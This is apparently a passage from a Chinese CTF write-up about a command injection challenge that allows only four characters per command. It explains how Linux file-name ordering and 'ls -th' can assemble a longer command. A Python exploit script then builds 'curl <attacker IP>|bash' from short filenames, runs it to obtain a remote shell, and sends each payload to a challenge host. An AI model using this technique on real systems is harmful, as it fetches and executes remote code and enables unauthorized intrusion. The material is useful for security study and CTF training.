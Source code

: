 <figure class="wp-block-image size-full"><img src="https://fushuling.com/wp-content/uploads/2022/11/2-5.png" alt="" class="wp-image-388"/></figure>


剩下的就是像上道题一样构造curl yourip|bash了，这一点很简单，标准答案毕竟是标准答案，他的方法肯定是可行的，但我们得明白为啥要这么做，有没有其他方法。

首先，我们要明白，linux默认排列文件是按首字母排布的，所以dir在第一个，我们可以用*代替dir，所以不难发现我们这里用了'&gt;ht-'，而上题用的"&gt;-t"，根本目的都是为了构造出ls -t按时间顺序列出各个文件，而这个h参数其实没啥用，我们是为了按字母顺序排序文件才加上的，因此这里的构造其实每个字母都大有玄机，只有符合Linux的默认顺序我们才能最终构造出我们想要的命令。

脚本：

```
import requests
from time import sleep
from urllib.parse import quote
 
 
payload = [
    # 将 "g> ht- sl" 写到文件 "v"
    '>dir', 
    '>sl', 
    '>g\>',
    '>ht-',
    '*>v',
 
    # 将文件"v"中的字符串倒序，放到文件"x"，就变成了 "ls -th >g"
    '>rev',
    '*v>x',
 
    # curl 82.157.233.xxx
 
    '>\;\\',
    '>sh\\', 
    '>ba\\', 
    '>\|\\', 
    '>x\\',
    '>xx\\',
    '>3.\\',
    '>23\\',
    '>7.\\', 
    '>15\\', 
    '>2.\\', 
    '>8\\', 
    '>\ \\', 
    '>rl\\', 
    '>cu\\', 
 
    # getshell
    'sh x', 
    'sh g', 
]
 
 
r = requests.get('http://01a3f24f-d53d-4ce1-923b-80bcfebc9699.node4.buuoj.cn:81/?reset=1')
for i in payload:
    assert len(i) <= 4
    r = requests.get('http://01a3f24f-d53d-4ce1-923b-80bcfebc9699.node4.buuoj.cn:81/?cmd=' + quote(i) )
    print(i)
    sleep(0.2)
```

